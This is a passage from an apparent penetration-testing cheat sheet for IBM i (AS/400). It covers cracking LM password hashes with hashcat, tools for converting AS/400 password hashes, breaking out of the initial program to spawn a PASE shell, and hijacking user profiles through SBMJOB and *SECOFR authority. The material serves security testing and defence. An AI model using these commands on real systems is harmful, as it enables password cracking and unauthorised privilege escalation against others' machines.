 ```ps1
# Hashcat command for LM hashes
.\hashcat.exe  -m 3000 -a 3 --increment --username -1 ?u?d?s .\hashes.txt ?1?1?1?1?1?1?1
```

* [willstruggle/ibmiscanner2john.py](https://github.com/willstruggle/john/blob/master/ibmiscanner2john.py) - Convert files in format userid:hash (e.g files produced by older versions of the ibmiscanner tool) to the as400-sha format that can be processed by JtR
* [hackthelegacy/pwd400gen.py](https://web.archive.org/web/20170224172524/http://www.hackthelegacy.org/attachments/pwd400gen.py) - Password hash generator for IBM Power Systems

## Privilege Escalation

### Initial Program Breakout

* Click "`Attn`" button. The attention interrupt key (ATTN) allows the authenticated user to interrupt/end a process and display a menu with additional functions.
* Press `F9` to run commands

```ps1
# Spawn a PASE shell
CALL QP2TERM

# Execute a script
CALL QP2SHELL PARM('/QOpenSys/usr/bin/sh' + '/tmp/scr')
```

### Hijack Profile - SECOFR Security Class

User profiles assigned with the `*SECOFR` (Security Officer) security class are automatically granted `*ALLOBJ` (All Object) authority, giving them unrestricted access to all system objects. Refer to [User Classes](#user-classes)

Display a user profile in several different formats with `DSPUSRPRF`.

```ps1
DSPUSRPRF <username>
```

The user submitting this must have `*ALLOBJ` and `*JOBCTL` authority.

* Submitting a Job as `<USERNAME>` 
    ```
    SBMJOB CMD(DSPJOB) JOB(TESTJOB) USER(<USERNAME>)
    ```
* Then check the job log:
    ```
    WRKJOB TESTJOB
    ```

### Hijack Profile - Authorities

* Print Public Authority: any user profiles have authority that is not set to the default of `*PUBLIC AUT(*EXCLUDE)`
